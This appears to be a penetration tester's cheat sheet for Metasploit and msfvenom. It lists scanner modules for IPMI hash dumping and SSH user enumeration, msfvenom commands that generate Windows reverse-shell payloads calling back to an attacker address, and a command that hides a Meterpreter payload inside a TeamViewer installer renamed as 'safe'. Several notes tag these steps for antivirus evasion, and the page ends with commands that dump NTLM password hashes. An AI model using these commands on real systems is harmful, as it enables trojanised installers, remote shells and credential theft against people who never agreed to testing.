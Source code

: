 # MSFconsole
## IPMI Hash Dump
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf> use auxiliary/scanner/ipmi/ipmi_dumphashes
```
## Local Exploit Suggestor
```shell-session
msf> use multi/recon/local_exploit_suggester
```
## SSH User Enumeration
```metasploit
msf> use auxiliary/scanner/ssh/ssh_enumusers
```
# MSFvenom
## Generate Payload
- msi
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f msi > shell.msi
```
- SGN encoded
Can be useful in #av-evasion 
```shell-session
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.169.0.36 LPORT=80 -b "\x00" -e x86/shikata_ga_nai -f exe -o /root/Desktop/metasploit/IamNotBad.exe
```
- Preserve template (-k) and inject payload in a new thread with custom template (-x)
Can be useful in #av-evasion 
```shell-session
$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=8080 -k -x ~/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/TeamViewer_Setup_safe.exe -i 5
```

Can be combined with #archive with password, or #packers for #av-evasion 
# Stageless Payload
- Sometimes better for #av-evasion 
- More stable than staged if bandwidth/latency issues

# Encoding
- #av-evasion (might not be useful now)
- cross-architecture exploit
# Meterpreter
## Dump NTLM hashes
```shell-session
meterpreter> load kiwi
meterpreter> lsa_dump_sam
```